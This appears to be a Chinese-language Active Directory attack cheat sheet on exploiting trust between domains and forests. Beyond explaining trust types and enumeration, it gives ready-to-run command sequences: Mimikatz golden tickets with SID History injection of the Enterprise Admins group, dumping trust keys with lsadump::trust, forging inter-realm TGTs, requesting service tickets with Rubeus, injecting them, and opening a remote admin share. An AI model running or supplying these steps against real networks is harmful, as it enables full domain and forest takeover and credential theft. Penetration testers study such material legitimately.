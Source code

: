 	域之间的信任关系
	单程
	域 B 信任 A
	域 A 中的用户可以访问域 B 中的资源
	域 B 中的用户无法访问域 A 中的资源
	双向
	域 A 信任域 B
	域 B 信任域 A
	认证请求可以在两个域之间双向传递
  ### 枚举域之间的信任
  	>nltest /trusted_domains
	或者
	>([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
	返回
	SourceName          TargetName                    TrustType      TrustDirection
	----------          ----------                    ---------      --------------
	domainA.local      domainB.local                  TreeRoot       Bidirectional
  ### 利用域之间的信任
  	需要对当前域的域管理员级别访问权限
| Source     | Target  | Technique to use  |
|---|---|---|---|
| 根域      | 子域  | Golden Ticket + Enterprise Admin group (Mimikatz /groups) |
| 子域     | 子域  | SID History exploitation (Mimikatz /sids)                 |
| 子域     | 根域   | SID History exploitation (Mimikatz /sids)                 |
| 域林 A  | 域林 B  | PrinterBug + Unconstrained delegation ?  |
  ### 子域到域林 - SID劫持
  	大多数树都与双边信任关系相关联，以允许共享资源。
	要求：
	KRBTGT 哈希
	查找域的 SID
	Convert-NameToSid target.domain.com\krbtgt
	S-1-5-21-2941561648-383941485-1389968811-502

	使用Impacket
	lookupsid.py domain/user:password@10.10.10.10
	将 502 替换为 519 以代表 Enterprise Admins
	创建金票并攻击父域。
	>kerberos::golden /user:Administrator /krbtgt:HASH_KRBTGT /domain:domain.local /sid:S-1-5-21-2941561648-383941485-1389968811 /sids:S-1-5-SID-SECOND-DOMAIN-519 /ptt
  ### 域林与域林
  	要求：禁用 SID 过滤
	从 DC 中，使用 Mimikatz 转储currentdomain\targetdomain$信任帐户的哈希（例如，使用 LSADump 或 DCSync）。然后，使用此信任密钥和域 SID，使用 Mimikatz 伪造一个跨域 TGT，将目标域的企业管理员组的 SID 添加到我们的SID 历史记录中。
  #### 转储信任密码（信任密钥）
  	查找末尾带有美元 ($) 符号的名称。大多数带有尾随$的帐户是计算机帐户，但有些是信任帐户
	>lsadump::trust /patch
  #### 使用 Mimikatz 创建伪造的信任票证（跨域 TGT）
  	mimikatz(commandline) # kerberos::golden /domain:domain.local /sid:S-1-5-21... /rc4:HASH_TRUST$ /user:Administrator /service:krbtgt /target:external.com /ticket:c:\temp\trust.kirbi
	mimikatz(commandline) # kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:e4e47c8fc433c9e0f3b17ea74856ca6b /user:Administrator /service:krbtgt /target:moneycorp.local /ticket:c:\ad\tools\mcorp-ticket.kirbi
  #### 使用 Trust Ticket 文件获取目标服务的 TGS
	>.\asktgs.exe c:\temp\trust.kirbi CIFS/machine.domain.local
	>.\Rubeus.exe asktgs /ticket:c:\ad\tools\mcorp-ticket.kirbi /service:LDAP/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt
  #### 注入 TGS 文件并使用欺骗权限访问目标服务。
  	>kirbikator lsa .\ticket.kirbi
	>ls \\machine.domain.local\c$
